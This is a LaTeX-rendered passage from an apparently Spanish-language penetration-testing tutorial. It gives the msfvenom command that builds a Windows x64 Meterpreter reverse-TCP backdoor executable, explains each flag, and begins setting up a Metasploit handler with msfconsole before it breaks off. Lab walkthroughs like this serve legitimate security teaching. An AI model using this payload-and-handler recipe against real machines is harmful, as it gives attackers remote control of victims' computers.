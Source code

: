 \documentclass[
  jou,
  floatsintext,
  longtable,
  a4paper,
  nolmodern,
  notxfonts,
  notimes,
  colorlinks=true,linkcolor=blue,citecolor=blue,urlcolor=blue]{apa7}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.40,0.45,0.13}{#1}}
\newcommand{\ExtensionTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
Ahora que tenemos nuestra dirección IP, vamos a crear el payload.
Usaremos \texttt{msfvenom}, una herramienta que viene con Metasploit
para generar payloads maliciosos. Queremos crear un payload que permita
un acceso remoto a una máquina con Windows. Usamos el siguiente comando:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom} \AttributeTok{{-}p}\NormalTok{ windows/x64/meterpreter/reverse\_tcp LHOST=192.168.122.152 LPORT=4444 }\AttributeTok{{-}f}\NormalTok{ exe }\AttributeTok{{-}o}\NormalTok{ backdoor.exe }\AttributeTok{{-}a}\NormalTok{ x64}
\end{Highlighting}
\end{Shaded}

Desglosamos el comando:

\begin{itemize}
\tightlist
\item
  \texttt{-p\ windows/x64/meterpreter/reverse\_tcp}: Especificamos el
  payload, que en este caso es un Meterpreter reverse TCP para Windows
  de 64 bits.
\item
  \texttt{LHOST=192.168.122.152}: Establecemos nuestra dirección IP
  local como el host de escucha.
\item
  \texttt{LPORT=4444}: Elegimos el puerto de escucha (puedes cambiarlo
  si es necesario).
\item
  \texttt{-f\ exe}: Indicamos que el formato de salida debe ser un
  archivo ejecutable de Windows.
\item
  \texttt{-o\ backdoor.exe}: Nombramos el archivo de salida
  \texttt{backdoor.exe}.
\item
  \texttt{-a\ x64}: Especificamos la arquitectura del payload (64 bits).
\end{itemize}

\section{Paso 3: Configurar el Handler en
Metasploit}\label{paso-3-configurar-el-handler-en-metasploit}

Una vez que tenemos nuestro payload, necesitamos configurar un handler
en Metasploit para escuchar las conexiones entrantes. Iniciamos
Metasploit con:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfconsole} \AttributeTok{{-}q}
\end{Highlighting}
\end{Shaded}
\end{document}

